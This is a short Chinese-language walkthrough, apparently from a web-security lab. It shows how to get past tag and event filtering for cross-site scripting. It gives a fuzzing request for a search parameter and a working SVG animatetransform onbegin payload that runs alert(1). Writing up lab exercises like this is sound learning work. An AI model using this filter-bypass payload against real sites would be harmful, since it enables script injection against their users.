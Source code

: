 ### 使用 svg 和 animatetransform 进行 xss

说白了，只要你会使用  Event handlers 查询 payload，一般在这种基于过滤标签、属性、事件来防止 xss 的环境下，都能利用  Event handlers 查询未被过滤的标签、属性、事件来构造 payload。

前提是，目标实现了某些功能导致可以注入 html 元素。

![image-20250527164307849](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250527164307849.png)

只能使用 onbegin 事件：

```
/?search=%3canimatetransform%20§aaaa§%3d1%3e
<animatetransform §aaaa§=1>
```

![image-20250527165134958](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250527165134958.png)

找到这样一个 payload：

![image-20250527164651596](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250527164651596.png)

```
<svg><animatetransform onbegin=alert(1) attributeName=transform>
```

![image-20250527165335740](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250527165335740.png)